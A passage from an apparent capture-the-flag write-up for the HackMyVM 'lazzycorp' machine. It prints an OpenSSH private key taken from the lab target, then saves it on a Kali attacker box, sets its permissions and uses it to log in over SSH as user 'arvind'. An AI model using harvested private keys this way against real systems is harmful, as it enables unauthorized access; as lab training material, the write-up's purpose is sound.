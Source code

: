```bash
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
-----END OPENSSH PRIVATE KEY-----
```
We then copy the private key to our attacker's machine and ssh into the target host using ssh for a more stable shell and another user.
```bash
kali :: exercises/HMV/lazzycorp » vim id_rsa
kali :: exercises/HMV/lazzycorp » chmod 600 id_rsa
```
For the next step to work, don't forget to set the right permission. which is (600) on the private key file, which translates to `read+write` in linux terms
```bash
kali :: exercises/HMV/lazzycorp » ssh arvind@10.9.9.12 -i id_rsa                                             130 ↵
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu 21 Aug 2025 04:33:01 AM UTC
```